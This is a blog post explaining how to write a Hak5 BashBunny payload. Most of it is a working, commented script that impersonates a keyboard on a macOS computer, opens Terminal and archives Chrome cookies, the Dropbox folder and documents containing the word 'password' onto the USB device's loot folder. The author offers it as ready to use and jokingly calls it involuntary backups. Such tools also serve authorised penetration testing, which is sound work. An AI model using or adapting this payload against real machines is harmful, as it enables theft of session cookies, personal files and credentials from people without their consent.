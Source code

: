 +++
date = "2017-04-01T22:08:35-04:00"
title = "Creating BashBunny Payloads"
Description = "Creating Payloads for the Hak5 BashBunny"
menu = "main"
Categories = ["Pentesting","Programming"]
Tags = ["bashbunny","hak5"]
+++


## What is it?

The [BashBunny](http://wiki.bashbunny.com/#!index.md) is an attack platform that allows attackers to
create payloads in Bash. The device can be scripted to enumerate as a HID (keyboard), mass storage,
serial, and Ethernet. This enables a multitude of attacks including thing like exfiltrating
documents over a network interface or stealing account hashes from locked computers.

## Creating a Payload

We want to create a payload that allows for easy exfiltration from macOS. We also don't want to
force the attacker to know the exact path of the files that are to be extracted; we should allow them
to create bash commands whose output returns a list of files that are to be exfilled.

~~~bash.prettyprint

# here we set an amber color to the LED so that the 
# attacker knows that the payload has begun executing
LED G R 500

# instruct the BashBunny to enumerate as both a keyboard and
# mass storage on the host computer (masOS)
ATTACKMODE HID STORAGE

# this creates a folder in the BashBunny's loot directory
# that will be used by our payload
mkdir -p /root/udisk/loot/sMacAndGrab

# enter the name of the volume that will be mounted
dev_name="BASHBUNNY"

# this is a variable that holds the path to which we will instruct
# the target to copy our desired files
lootdir="\"/Volumes/$dev_name/loot/sMacAndGrab\""

# in this section, we add files, directories, and unix commands
# which return lists of files. this text will be typed exactly
# in the macOS terminal. Because this is bash, we have to escape 
# bash characters so that they don't evaluate when the script runs, 
# but rather they're seen as simple text.
files_to_copy=(
"\"~/Library/Application Support/Google/Chrome/Default/Cookies\"" # Quote paths with spaces
"~/Dropbox"  # enter entire directories
"\$(grep -lr password ~/Documents)" # get all Documents with the word 'password'
)
~~~

It's important to remember that this is a bash script and if we don't want symbols like `$;|:~` to
be evaluated, but rather typed or passed to the victim, they must be escaped with a backslash.

In the second half of the payload, we're defining strings that are going to by typed by the
BashBunny on the victim computer. This is why you'll see it peppered with `\\`

~~~bash.prettyprint

# these command instruct the BashBunny to act as a keyboard and physically
# type the commands

# Command + Space to launch Spotlight
QUACK GUI SPACE
QUACK DELAY 1000

# Opens the Terminal program
QUACK STRING terminal
QUACK ENTER
QUACK DELAY 4000

# Types a command to compress all of the previously defined files to 
# the previously defined storage location
QUACK STRING tar -cf \$USER.tar.gz ${files_to_copy[*]}\; mv \$USER.tar.gz $lootdir\; killall Terminal
# $lootdir and $files_to_copy are not escaped because we want them expanded to the variables we set
QUACK ENTER

# sync the filesystem to the BashBunny can be safely removed
sync

# let the attacker know that they can remove the BashBunny
LED G
~~~

And that's that. If one follows the directions in the wiki posted at the beginning of this post for
loading this payload, you have a payload that creates automatic involuntary backups in a matter of
seconds.

I've submitted the code to the official [Hak5 BashBunny Payload]
(https://github.com/hak5/bashbunny-payloads/tree/master/payloads/library/SmacAndGrab)
repo as the payload sMacAndGrab. Enjoy!
